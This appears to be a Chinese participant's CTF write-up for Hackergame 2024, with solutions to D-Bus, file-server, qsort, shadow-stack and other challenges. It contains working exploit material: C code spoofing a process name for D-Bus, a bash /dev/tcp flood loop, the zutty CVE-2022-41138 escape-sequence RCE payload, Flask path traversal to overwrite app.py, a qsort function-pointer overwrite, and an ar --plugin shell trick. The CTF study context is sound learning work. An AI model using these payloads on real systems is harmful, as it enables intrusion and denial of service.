				      INTERFACE,	/* interface */
				      NULL,				/* GCancellable */
				      &error);

    flag1(proxy);
    return 0;
}
```

另外也可以用`dbus-send`shell指令，原则上一行就行。但是这个好像很难处理后两问。

```bash
#!/bin/bash
BUS_NAME="cn.edu.ustc.lug.hack.FlagService"
OBJ_PATH="/cn/edu/ustc/lug/hack/FlagService"
INTERFACE="cn.edu.ustc.lug.hack.FlagService"

dbus-send --system  --print-reply=literal --dest=$BUS_NAME $OBJ_PATH $INTERFACE.GetFlag1 string:"Please give me flag1"
```

flag2需要通过dbus传一个文件描述符过去，但不能是个文件。我们可以本地开一个socket server，再开一个socket连接那个socket server，最后直接把socket的fd传过去，可以用`g_dbus_proxy_call_with_unix_fd_list_sync`这个函数。

> 感觉我socket编程写的挺烂的

```c
#include <unistd.h>
#include <gio/gio.h>
#include <gio-unix-2.0/gio/gunixfdlist.h>
#include <gio-unix-2.0/gio/gfiledescriptorbased.h>
#include <glib.h>

int socket_server() {
	int fd;
	struct sockaddr_in addr;
	int ret;
	char buff[8192];
	struct sockaddr_in from;
	int ok = 1;
	int len;
	socklen_t fromlen = sizeof(from);

	if ((fd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
		perror("socket");
		ok = 0;
	}

	if (ok) {
		memset(&addr, 0, sizeof(addr));
		addr.sin_family = AF_INET;
		addr.sin_port = htons(8000);
		addr.sin_addr.s_addr = htonl(INADDR_ANY);
		if (bind(fd, (struct sockaddr *)&addr, sizeof(addr)) < 0) {
			perror("bind");
			ok = 0;
		}
	}

	puts("bind localhost:8000");

	if(ok && (listen(fd, QUEUE) == -1)) {
		perror("listen");
		ok = 0;
	}

	int reply_sock_fd = accept(fd, (struct sockaddr*)&from, &fromlen);
	puts("connection accepted");
	
	const char *msg = "Please give me flag2\n\x00";
	send(reply_sock_fd, msg, strlen(msg), 0);

	// puts(buff);

	if (fd >= 0) {
		close(fd);
	}

	return 0;
}

void flag2(GDBusProxy *proxy) {
    GVariant *result;
	GError *error = NULL;
	const gchar *str;

	
	pid_t pid = fork();
	if (pid == 0){
		// socket
		socket_server();
		return;
	}

    // GSocket *sock = g_socket_new(G_SOCKET_FAMILY_IPV4, G_SOCKET_TYPE_STREAM, G_SOCKET_PROTOCOL_TCP, &error);
	// g_assert_no_error(error);

	int sock_fd = socket(PF_INET, SOCK_STREAM, 0);
	struct sockaddr_in native_sock  = {
		.sin_family = AF_INET,
		.sin_addr.s_addr = inet_addr("127.0.0.1"),
		.sin_port = htons(8000)
	};
	int native_len = sizeof(native_sock);
	connect(sock_fd, (struct sockaddr *)&native_sock, native_len);

	// g_socket_connect(sock, g_inet_socket_address_new_from_string("127.0.0.1", 8000), NULL, &error);
	// g_assert_no_error(error);

	// int sock_fd = g_file_descriptor_based_get_fd(sock);


    GUnixFDList *fd_list = g_unix_fd_list_new_from_array  (
        &sock_fd, 1
    );

    GUnixFDList *out_fd_list = g_unix_fd_list_new  ();

    // g_socket_send (sock, );
	// g_assert_no_error(error);

	g_printf("flag2...\n");
	result = g_dbus_proxy_call_with_unix_fd_list_sync(
                    proxy,
					"GetFlag2",
					g_variant_new ("(h)", 0),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
                    fd_list,
                    &out_fd_list,
					NULL,
					&error);
	g_assert_no_error(error);

	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
	// flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_efd7ee2235}
}
```

flag3则要求我们只能用一个`/proc/[pid]/comm`为getflag3的程序来请求dbus，但是分发的那个`getflag3`只能请求不能回显。但是很显然`comm`只包括了被执行的程序文件名而不包括绝对路径，我们只要把自己的程序名字改成`getflag3`就行了。我的做法是执行一堆`system`之后execve自己。看flag提示似乎直接用prctl系统调用就可以改名。总之这问方法挺多。

（另外shell执行`dbus-send`的时候comm似乎是dbus-send）

```c
void getflag3(GDBusProxy *proxy)
{
	GVariant *result;
	GError *error = NULL;
	const gchar *str;

	g_printf("flag3...\n");
	result = g_dbus_proxy_call_sync(proxy,
					"GetFlag3",
					g_variant_new ("()"),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
					NULL,
					&error);
	g_assert_no_error(error);
	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
	
}

void flag3(GDBusProxy *proxy, char **environ) {
    GVariant *result;
	GError *error = NULL;
	const gchar *str;

	char * new_args[3] = {"/dev/shm/getflag3", "flag3", NULL};

	system("cp /dev/shm/executable /dev/shm/getflag3");
	system("chmod +x /dev/shm/getflag3");
	execve("/dev/shm/getflag3", new_args, environ);

	// flag{prprprprprCTL_15your_FRiEND_45cb8a68a7}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
	GError *error = NULL;
	const char *version;
	GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
				      G_DBUS_PROXY_FLAGS_NONE,
				      NULL,				/* GDBusInterfaceInfo */
				      BUS_NAME,		/* name */
				      OBJ_PATH,	/* object path */
				      INTERFACE,	/* interface */
				      NULL,				/* GCancellable */
				      &error);

    // send_a_method_call(connection,"Hello, D-Bus");
	if (argc > 1) {
		getflag3(proxy);
	} else {
    	flag3(proxy, environ);
	}

    return 0;
}
```

## ![](https://img.shields.io/badge/general-af2447) 动画分享

这个题用rust实现了一个极简的文件HTTP服务器，然后跑在一个chroot的0.12旧版zutty终端模拟器下。我们可以提交一个程序和它交互。把服务器干死（不能正常响应或者退出）可以获得flag1，flag2则需要越权读取。

首先这个服务器是基于TcpStream的，我不太了解Rust，但这个应该是单线程的，并且后面请求文件的时候会一次把整个文件读出来。所以这样没有并发能力的服务器应该非常弱CC这种DoS攻击，我们只要popen出来一堆请求疯狂去GET chroot里面最大的那个文件就行了。一个进程就能实现这种DoS

```py
for i in range(40):
    try:
        subprocess.Popen(['bash', '-c', "while true; do echo GET /usr/lib/x86_64-linux-gnu/libLLVM-11.so.1; done >/dev/tcp/localhost/8000"], stdout=subprocess.DEVNULL)
        # subprocess.Popen(['python3', __file__, 'sub', str(i)], stdout=subprocess.DEVNULL)
        # for j in range(40):
        #     connect_only()

    except BlockingIOError:
        break
    except:
        raise
```

另外我还试了搞一堆socket只connect不发信，也能达到效果，这个应该算是SYN攻击？

但是很可惜的是，也正因为这个服务端是单线程，就算有海量请求它的内存占用也不会很大，所以不会触发OOM Killer，除此外也想不到别的方式能杀死这个进程了。

为什么我这么执着于杀死这个rust server，是因为我知道zutty这个版本有一个RCE的洞，即CVE-2022-41138（是这个项目唯一一个CVE），甚至gentoo上能找到poc，如果有一个程序向终端模拟器输出了下面的内容，就会触发`id`执行：

```
\x1bP$q\nid;\n\x1b\\
```

前面的`\x1bP$q`是DECRQSS (Request Status String)前缀，但是zutty判断前缀后面内容不合法时，会把这部分内容回显，也就是漏到终端模拟器跑的程序里面。假如这里面藏了换行符，那么漏下去的内容就作为shell命令执行。

那么对应到fileserver，就是每次请求的时候会把请求log到标准输出中。虽然fileserver是以`\n`分隔请求，但是我试了试zutty用`\r`也可以RCE，而这就不会被fileserver切开了。

但是这有个前提，就是终端模拟器里跑的得是个shell。如果是别的程序，那其实就是以stdin输入，比如如果里面跑的是python交互，那就得到的是python里那个id函数。如果是rust写的fileserver，则什么也不会发生，因为没有任何处理stdin输入的请求。

那么假设有办法把fileserver杀死了，那么之前stdin缓冲区的输入会全部进入shell中触发命令执行。因为退出了chroot进程，这时执行命令的就是普通的root shell，就可以随意读文件或者改权限了。

所以看看大伙怎么把这个服务器搞死。感觉要大腿拍烂了。

> 赛后：大腿真拍烂了，原来ctrl-C 在终端模拟器里就是\x03这个字符。但凡我把non printable character都遍历一边也不至于

## ![](https://img.shields.io/badge/math-90b452) 关灯
前三问直接z3一把梭了

第4题应该是要好好做了。1D关灯题应该本质上等价于一个带状矩阵的布尔线性方程组求解（异或和与分别为加法和乘法），扩展到3D可能拓展为6阶张量，或者还是一个百万大小的稀疏矩阵线性方程组求解。如果能提前求出逆的话应该可以达到它那个速度需要的要求。

## ![](https://img.shields.io/badge/web-0c4d72) 禁止内卷

这个题可以上传一个json，里面是个数组，服务端会算上传数组和目标数组的方差。我们可以上传两个文件，在某一个位置上差1，就可以通过两轮方差的差定出这个位置的内容。但是很不巧服务端会把答案里的负数取成0，所以这种方法会丢失信息。

所以这题玩的其实是目录穿越。

```py
filepath = os.path.join(UPLOAD_DIR, filename)
```
当filename可控时，且不说可以`..`接出来，如果filename以`/`开头会直接忽略`UPLOAD_DIR`把filename视为绝对路径，是不是很神奇？之后因为这个题flask还开了reload，可以直接覆盖`app.py`拿shell。

## ![](https://img.shields.io/badge/binary-c46bf9) 我们的快排確有問題

这个题是玩stdlib的qsort的，其中比较函数设计有缺陷，当两个数有一个小于2.5时，必然会返回前一个小于后一个的结论。

```c
int whos_jipiei_is_better(const void *const pa, const void *const pb) {
    const double a = *(const double *)pa;
    const double b = *(const double *)pb;

    if (!a || !b) {
        return 0;
    }
    if (a < 2.5 || b < 2.5) {
        puts("With such grades, how can we sort them?");
        return -1;
    }
    if (a < b)
        return -1;
    if (a > b)
        return 1;
    return 0;
}

```

首先手玩，加入少量小于2.5的数，会发现当输入的待排序数组长度大于128时，高概率会段错误。

qsort大致原理是把比中间某个数大和某个数小的排到两边，然后两边分别以一半的数组大小进行内部排序。因为已知右边这组所有的数必然会大于中间的数，所以qsort认为右边这组最小的数遇到了原来中间的数一定会停下来，所以没做边界检查，谁知道结果会不停。

不停的结果就是有的操作数会滑到bss段的上一个变量，也就是`gms.sort_func`，用于排序的函数指针。恰好，我们的后门函数地址转换为浮点数，也是小于2.5的。为了防止段错误，这种操作最多只能进行一次。

所以这样的数组刚好可以导致函数指针被覆盖，但是又不会报段错误。

```py
STU_NUM = 128
STU_GPA = [5 for  i in range(STU_NUM)]
STU_GPA[123] = long_to_double(real_backdoor)
```

这里后面我们用system的plt表，然后当然作为排序算法是可以传参数进去的，第一次调用的参数就是最中间那个数。我们把那里存成bss的地址，然后在输入数组里埋下一个getflag程序就行了（不知道为什么/bin/sh不行，可能是缓存区没关的过）

## ![](https://img.shields.io/badge/binary-c46bf9) 哈希三碰撞
其实算是逆向+密码学。只做了第一问，找出三个SHA256后4个字节完全相同的8字节串。生日攻击算1000000个SHA256就有大量三碰撞了。

二三问完全没思路。

> 赛后：去找区块链硬分叉。思维要活跃，这个题其实比较misc
> 然后，把反编译喂给AI生成py代码是什么神奇操作我去。思维要活跃
>
> https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E5%93%88%E5%B8%8C%E4%B8%89%E7%A2%B0%E6%92%9E/chat2.md

## ![](https://img.shields.io/badge/binary-c46bf9) 新生赛上的零解题

这个题有点意思，涉及了intel尚未推广的CET ROP缓解措施，影子栈SHSTK和IBT。

第一问给了一个带影子栈的C++程序，但是这个影子栈不是CPU层面，而是通过C++的异常处理机制在软件上实现的，影子栈位于一个mmap段，地址已知。并且因为是纯手工实现，甚至没有编译器支持，所以影子栈的判定位于canary判定之前。

这样第一个问题就是，即使我们破坏了canary，因为影子栈对返回地址检测更早，并且异常处理会跳过后面的代码，所以事实上会导致canary失效。另外通过对`old_rbp`和返回地址的恰当处理，我们可以让异常处理机制误以为我们在其他异常块里，并且可以导致一次栈迁移劫持程序流。具体来说：

- old_rbp: 异常结束后栈迁移所在位置。值+8是异常块结束后要返回的地址
- ret_addr: 放在哪个try块里，就决定了当前要进入哪个异常块。

所以可以第一轮直接把栈迁移到影子栈的那块mmap里，等效于知道了栈地址。第二轮栈溢出就可以直接写ROP链了，然后返回地址放在ROP的开头。ROP链构造可以用`ropper`


第二问需要配intel sde模拟环境，我一直配不太好，再加上pwntools特别卡，就先不研究了。

> 第二问绕过canary: 可以直接+跳过scanf
> 绕过影子栈：intel sde的影子栈可读可写，可以直接pwndbg搜索内存，vmmap可看偏移

## ![](https://img.shields.io/badge/AI-8b9164) 那个题目特别长的AI题

总之是某个千问1.5B大模型的输出，但是把特定字母（第一问是hackergame，第二问更多还包括些空格）都替换为x，我们需要还原原文（sha256给定）

第一问借助了他们puzzle hunt玩家特别喜欢的[nutrimatic](https://nutrimatic.org/2024/)，写了个简单查询脚本：
```py
client = requests.session()

HOST = 'https://nutrimatic.org/2024/'
alpha = '[hackergamex]'

while True:
    s = input('> ')
    if s == 'exit':
        break
    print(s.replace('x', alpha))
    resp = client.get(HOST, params={'q': s.replace('x', alpha)})
    soup = BeautifulSoup(resp.text, 'lxml')

    for ele in soup.select('span')[:10]:
        print(ele.text)
```

结合语义基本上能做出绝大多数单词，可能只有不到5个单词会有一定歧义。所以我还做了一个hash检查，把歧义单词记录下来，随机替换后计算hash，说不定就能和结果对上。我最后卡的两个词一个是`stakes are high`，一个是`race/game was on`。

- In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.
- 
- In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.

----

还有几个题做了半天没出结果，比如那个less题那个cat题那个ZFS题。准备看官方题解了。

## LESS

前半思路基本全对，就是lesspipe加扩展名。但是真的只差一个搜索，比如搜lesspipe RCE。

但是后半的扩展名程序用错了，我拿gzip试了半天，但这个最多只能造个压缩炸弹把less给OOM了，并不能造成攻击。但是看题解，用ar这个打包程序的命令，利用`ar @.a`把`.a`作为一个额外读入options的文件，然后`ar`本身可以用`--plugin`加载任意动态链接库，所以只要传一个包含`onload`函数的动态库就可以getshell。

https://seclists.org/fulldisclosure/2014/Nov/74
https://seclists.org/oss-sec/2014/q4/1027